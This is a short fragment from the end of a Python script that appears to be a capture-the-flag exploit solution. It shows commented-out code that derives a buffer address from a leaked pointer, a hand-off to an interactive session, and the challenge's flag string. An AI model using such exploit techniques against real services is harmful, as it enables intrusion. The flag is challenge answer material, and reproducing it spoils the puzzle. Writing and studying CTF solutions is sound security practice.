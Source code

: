 ```py
    # else:
        # leak = (u64(leak[33:].ljust(8, b"\x00")) << 8) | (8 * random.randint(0, 256//8))
    # addr_buffer = leak - 0x11c8
    # print(f"buffer @ {hex(addr_buffer)}")


    r.interactive()


if __name__ == "__main__":
    main()


# INS{I_Don't_tRu5t_your_Find1nGs!}
```
